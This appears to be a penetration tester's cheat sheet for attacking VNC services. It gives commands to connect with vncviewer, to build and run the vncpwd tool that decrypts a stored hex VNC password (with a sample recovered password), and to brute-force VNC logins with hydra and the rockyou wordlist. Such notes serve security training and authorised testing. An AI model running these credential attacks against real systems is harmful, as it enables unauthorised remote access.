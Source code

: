 ### **Checks**

- [ ] check for easy VNC passwords
- [ ] check for exploits for VNC version
- [ ] brute force VNC password

#### Accessing VNC

```bash - kali
vncviewer $TARGET
```
- use `SHIFT` + `CONTROL` + `ALT` + `DEL` to unlock screen
```bash - kali
password
```
#### Cracking hex VNC password
`"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`
```bash - kali
git clone https://github.com/jeroennijhof/vncpwd
```
```bash - kali
cd vncpwd
```
```bash - kali
sudo make
```
```bash - kali
./vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
```
`Password: sT333ve2`
#### Attacking VNC
https://www.hackingarticles.in/password-crackingvnc/
```bash - kali
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 $TARGET vnc -f
```
>
password
